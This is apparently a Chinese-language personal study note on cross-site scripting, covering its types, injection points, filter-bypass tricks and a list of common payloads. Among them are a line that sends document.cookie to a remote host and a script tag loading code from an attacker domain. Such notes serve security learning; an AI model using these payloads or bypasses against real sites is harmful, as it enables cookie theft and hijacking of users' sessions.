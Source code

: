 #                                  XSS

* ## XSS定义

跨站脚本（Cross-site scripting，XSS）是对网页代码（包含HTML以及前端脚本）有漏洞的网站进行的攻击，是代码注入的一种。它允许恶意代码被注入到网页上，其他使用者在访问网页时就会受
到影响。攻击成功后，攻击者可能得 到更高的权限、私密网页内容、会话和cookie等各种内容。 

> 提示
>
> > XSS属于客户端攻击，受害者最终是用户。但不要忘记网站管理人员也属于用户之一，管理员拥有着太多权限，一般管理员都可以对网站进行文件管理、数据管理等操作，攻击者就有可能靠管理员身份作为跳板实施攻击。

* ## 原理

  XSS攻击是在网页中嵌入客户端恶意脚本代码，这些恶意代码一般使用JavaScript语言编写JavaScript可以用来获取用户的Cookie、改变网页内容、URL调转，存在XSS漏洞的网站，可以盗取用户Cookie、黑掉页面、导航到恶意网站，攻击者仅仅需要向web页面注入JavaScript代码

* ## 分类

  1. 反射型（不储存于服务器，非持久）
  2. 储存性（粗存于服务器，持久性）
  3. DOM型（改变DOM结构）（DOM本身代表文档，给予DOM型的XSS不需要与服务器交互，只发生在客户端处理数据阶段）![image-20201229221502057](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20201229221502057.png)

- ## 漏洞利用

 1.盗取cookie： 

```
<script>alert(document.cookie)</script>
```

 2.构造页面跳转： 

```
<script>location='https://www.hacker.com'</script>
```

 3.构造获取cookie并发送到远程主机： 

```
<script>document.location='http://127.0.0.1/test/cookie.phpcookie='+document.cookie</script>
```

- ### 常见注入点

1、输入框

2、留言板

3、URL中可传参数的变量

* ### 触发JS解析器的方式：

  1. 直接嵌入<script>代码块。

  2. 通过src属性加载代码。
  3. 各种HTML CSS参数支持JavaScript：URL伪协议触发调用。
  4. 事件处理器，如：onload，onerror，onclick等。
  5. 定时器，timer（setTimeout，setInterval）
  6. eval(...)调用

* ## 过滤与绕过

  #### 1. 闭合引号、标签

  #### 2. 关键字过滤

  > 大小写
  >
  > 双写、拼凑
  >
  > 干扰字符（任意位置插入null字符）
  >
  > ```javascript
  > <im[%00]g onerror=alert(xss) src=a>
  > ```

  #### 3. 编码绕过

  * url编码，JavaScript编码  （在src等属性标签下可用，”JavaScript“不能编码）

    |     进制      |       格式       |
    | :-----------: | :--------------: |
    |  ascll(默认)  |       %00        |
    |    八进制     | \0(三位不足补零) |
    |    十六进     |       \x00       |
    | unicode编码制 |      \u0000      |

  * HTML实体（对大小写敏感）

    [html实体码转码](https://www.qqxiuzi.cn/bianma/zifushiti.php "实体码，记得预留字符转命名实体")

    ![image-20201229232607711](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20201229232607711.png)

  

  * 宽字节绕过
  * 复合编码

  * 单引号   ()   --->   ``

  #### 4. 外部标签

  > ---> <svg>属于外部标签，是一种特殊的标签，它使用XML格式定义图像，XML支持在标签内解析HTML实体字符，所以在XML中可以执行。

  ```html
  <svg><script>alert(&#40;'1'&#41;</script>)
  ```

  ##### 浏览器解码顺序

  html解码 ---> JavaScript解码 ---> url解码 ---> 发送http请求

  ![image-20201229223632254](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20201229223632254.png)

  #### 4. JavaScript转义

  ```
  eval()
  ```

  * ## 常用payload

   **script标签：** 

  ```
  <script>alert(/1/)</script>
  <script>prompt(1)</script> 
  <script>confirm(1)</script>
  <script src="http://attacker.org/malicious.js"></script>
  <script src=data:text/javascript,alert(1)></script>
  <script>setTimeout(alert(1),0)</script>
  ```

   **img标签：** 

  ```
  <img src=x onerror=alert(1)>
  <img src=x onerror=prompt(1);>
  <img src=javascript:alert('1')>
  ```

   **a标签：** 

  ```
  <a href=”javascript:alert(1)”>点击触发</a>
  <a href="http://www.hacker.com">点击触发</a>
  ```

   **iframe标签：** 

  ```
  <iframe src="javascript:alert(1)">
  <iframe onload=alert(1)>
  ```

   **常用事件：** 

  ```
  onclick: 点击触发 
  （<img src=x onclick=alert(1)>）
  ```

  ```
  onerror: 当 src 加载不出来时触发 
  （<img src=x onerror=alert(1)>）
  ```

  ```
  onload: 当 src 加载完毕触发
  （<img src=x onload=alert(1)>）
  ```

  ```
  onmouseover：鼠标移动到图片后触发
  （<img src=x onmouseover=alert(1)>）
  ```

  ```
  onmousemove: 鼠标移到指定元素触发
  （<img src=x onmousemove=alert(1) >）
  ```

  ```
  onfocus: 当input 输入框获取焦点时触发
  （<input onfocus=javascript:alert(1) autofocus>）
  ```

  **常用属性：**
  src
  action
  href
  data
  content 

  **javascript弹窗函数：**
  alert()
  confirm()
  prompt() 

  





















